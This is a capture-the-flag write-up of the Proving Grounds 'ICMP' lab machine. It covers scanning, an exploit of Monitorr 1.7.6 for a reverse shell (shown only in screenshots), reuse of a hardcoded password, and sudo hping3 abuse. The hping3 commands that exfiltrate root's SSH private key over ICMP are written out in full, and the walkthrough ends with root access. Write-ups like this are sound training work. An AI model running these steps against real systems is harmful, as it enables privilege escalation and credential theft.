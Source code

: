 ```yaml
---
layout: default
title: ICMP
parent: Proving Grounds Play
nav_order: 20
---
```


# Scanning

---

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ sudo nmap -Pn -p- -sC -sV -T4 --open 192.168.226.218
Starting Nmap 7.94 ( https://nmap.org ) at 2023-11-11 22:50 EST
Nmap scan report for 192.168.226.218
Host is up (0.059s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey:
|   2048 de:b5:23:89:bb:9f:d4:1a:b5:04:53:d0:b7:5c:b0:3f (RSA)
|   256 16:09:14:ea:b9:fa:17:e9:45:39:5e:3b:b4:fd:11:0a (ECDSA)
|_  256 9f:66:5e:71:b9:12:5d:ed:70:5a:4f:5a:8d:0d:65:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
| http-title:             Monitorr            | Monitorr
|_Requested resource was http://192.168.226.218/mon/
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.16 seconds

```

# Enumeration

---

## 80 | HTTP

The system appears to be running Monitorr version 1.7.6

![monitorr](../../../assets/images/ctfs/proving_grounds/icmp/monitorr.png)

# Exploitation

---

There is an exploit for this version of Monitorr

![searchsploit](../../../assets/images/ctfs/proving_grounds/icmp/searchsploit.png)

Run the exploit and we get a reverse shell on our netcat listener.

![shell](../../../assets/images/ctfs/proving_grounds/icmp/shell.png)

# Post-Exploitation

---

## Enumerate Users

We find user _fox_.

Looking in _/home/fox_ we find a directory _/devel_ that we cannot access and a file _reminder_ that we can read.

```bash
www-data@icmp:/home/fox$ cat reminder
crypt with crypt.php: done, it works
work on decrypt with crypt.php: howto?!?

```

There is a hint with a file name _crypt.php_.

If we try to access _/devel/crypt.php_ we can read the contents of the file.

```bash
www-data@icmp:/home/fox$ cat ./devel/crypt.php
<?php
echo crypt('BUHNIJMONIBUVCYTTYVGBUHJNI','da');
?>

```

It looks like we have the unencrypted vesion of the password for _fox_.

If we use that value as a password we can switch to the user _fox_

```bash
www-data@icmp:/home/fox$ su fox
Password:
$ id
uid=1000(fox) gid=1000(fox) groups=1000(fox)

```

## Check Sudo Permissions for User Fox

```bash
$ sudo -l
[sudo] password for fox:

Sorry, try again.
[sudo] password for fox:
Sorry, try again.
[sudo] password for fox:
Matching Defaults entries for fox on icmp:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User fox may run the following commands on icmp:
    (root) /usr/sbin/hping3 --icmp *
    (root) /usr/bin/killall hping3

```

We can use sudo permissions on _hping3_

Checking GTFOBins for _hping3_ exploits.

![gtfobins](../../../assets/images/ctfs/proving_grounds/icmp/gtfobins.png)

We should be able to use this exploit to send the _root_ user _.ssh/id_rsa_ private key to our attack machine.

```bash
# open a second ssh session as user fox
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY]
└─$ ssh fox@192.168.226.218
$ whoami
fox

# Now listen for hping3 traffic locally on loopback 127.0.0.1

$ sudo hping3 --icmp 127.0.0.1 --listen signature --safe
Warning: Unable to guess the output interface
hping3 listen mode
[main] memlockall(): Success
Warning: can't disable memory paging!

# Finally we send the /root/.ssh/id_rsa private key

$ sudo /usr/sbin/hping3 --icmp 127.0.0.1 -d 100 --sign signature --file /root/.ssh/id_rsa
HPING 127.0.0.1 (lo 127.0.0.1): icmp mode set, 28 headers + 100 data bytes
[main] memlockall(): Success
Warning: can't disable memory paging!
len=128 ip=127.0.0.1 ttl=64 id=9781 icmp_seq=0 rtt=2.6 ms


```

As we can see the file is printed line by line in our second SSH session.

![hping](../../../assets/images/ctfs/proving_grounds/icmp/hping.png)

We now have the private rsa key for the root user and can simply SSH as root

```bash
┌──(vagrant㉿kali)-[~/Documents/PG/PLAY/icmp]
└─$ ssh -i id_rsa root@192.168.226.218
Linux icmp 4.19.0-11-amd64 #1 SMP Debian 4.19.146-1 (2020-09-17) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Tue Aug 23 20:18:10 2022
root@icmp:~# id
uid=0(root) gid=0(root) groups=0(root)

```
